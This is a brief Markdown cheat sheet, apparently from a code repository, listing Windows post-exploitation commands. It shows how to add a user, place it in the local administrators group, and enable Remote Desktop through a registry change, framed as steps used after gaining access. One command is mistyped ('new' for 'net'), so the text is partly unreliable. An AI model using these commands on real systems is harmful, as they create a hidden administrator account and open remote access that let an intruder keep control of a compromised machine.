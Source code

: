 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
1. Add the User:
* `net user /add [username] [password]`
2. Add the usedr to the Admin Group:
* `new localgroup administrators [username] /add`
## Enable RDP (XP+)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
